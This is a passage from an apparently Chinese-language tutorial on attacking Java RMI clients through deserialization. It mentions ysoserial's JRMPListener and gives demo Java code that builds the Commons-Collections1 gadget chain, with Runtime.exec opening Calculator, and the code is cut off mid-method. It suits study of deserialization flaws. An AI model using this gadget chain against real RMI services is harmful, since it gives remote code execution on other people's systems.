 上述的每个方法中, 除了`unbind`和`rebind`, 其他的都会返回数据给客户端, 此时的数据是序列化的数据, 所以客户端自然也会反序列化, 那么只需要伪造注册中心的返回数据, 就可以达到攻击客户端的效果.

该攻击方式可以利用`ysoserial`的`JRMPListener`攻击模块

### 服务端攻击客户端
在`RMI`中, 远程调用方法传递回来的不一定是一个基础数据类型(String、int), 也有可能是对象. 当服务端返回给客户端一个对象时, 客户端就要对应的进行反序列化. 所以我们需要伪造一个服务端, 当客户端调用某个远程方法时, 返回的参数是我们构造好的恶意对象.

`Demo`代码. 

```java
package org.h3rmesk1t.rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;


/**
 * @Author: H3rmesk1t
 * @Data: 2022/1/30 1:42 上午
 */
public class RMIClientAttackDemo3 {
    public static void main(String[] args) throws Exception {

        // 获取远程对象实例
        Registry registry = LocateRegistry.getRegistry("localhost", 4321);

        RemoteInterface stub = (RemoteInterface) registry.lookup("demoCaseBegin");
        System.out.println(stub.demoCaseBegin(openCalculatorObject()));
    }

    public static Object openCalculatorObject() throws Exception {
        // Commons-Collection1链
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        Map hashMap = new HashMap();
        hashMap.put("value", "d1no");
        Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, transformedMap);

```